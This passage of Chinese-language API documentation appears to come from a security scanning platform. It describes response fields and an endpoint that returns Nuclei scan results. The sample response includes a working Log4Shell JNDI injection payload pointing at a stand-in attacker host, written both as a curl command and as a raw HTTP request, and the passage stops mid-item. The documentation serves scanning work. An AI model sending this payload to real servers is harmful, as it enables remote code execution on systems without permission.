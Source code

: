 ### 通用响应字段说明

| 字段名   | 类型   | 说明                                        |
| -------- | ------ | ------------------------------------------- |
| code     | number | 响应码，200表示成功，非200表示出错          |
| message  | string | 响应消息，成功时为"success"，失败时为错误信息 |
| data     | object | 响应数据，不同API返回的数据结构不同         |

## 详细API说明

### 1. 查询Nuclei扫描结果

**请求方法与地址**：
```
GET /api/nuclei_result/
```

**查询参数**：

通用字段说明中的基础查询参数都可用于过滤Nuclei扫描结果。

**响应示例**：
```json
{
  "code": 200,
  "message": "success",
  "page": 1,
  "size": 10,
  "total": 25,
  "items": [
    {
      "_id": "60f8c2b2e13e4b1e8c8b4567",
      "template_url": "http://example.com/templates/cve-2021-44228.yaml",
      "template_id": "CVE-2021-44228",
      "vuln_name": "Apache Log4j Remote Code Execution",
      "vuln_severity": "critical",
      "vuln_url": "http://example.com/login",
      "curl_command": "curl -X POST http://example.com/login -H 'X-Api-Version: ${jndi:ldap://attacker.com/a}' -d 'username=admin&password=admin'",
      "target": "example.com",
      "matcher_name": "log4j-rce",
      "request": "POST /login HTTP/1.1\r\nHost: example.com\r\nX-Api-Version: ${jndi:ldap://attacker.com/a}\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 29\r\n\r\nusername=admin&password=admin",
      "response": "HTTP/1.1 200 OK\r\nServer: nginx/1.18.0\r\nContent-Type: text/html\r\n\r\n<html>...</html>",
      "task_id": "60f8c2b2e13e4b1e8c8b1234",
      "create_time": "2023-05-01T08:30:00.000Z"
    },
    {
      "_id": "60f8c2b2e13e4b1e8c8b4568",
      "template_url": "http://example.com/templates/cve-2022-22965.yaml",
      "template_id": "CVE-2022-22965",
      "vuln_name": "Spring Framework RCE",
      "vuln_severity": "high",
      "vuln_url": "http://example.org/actuator",
```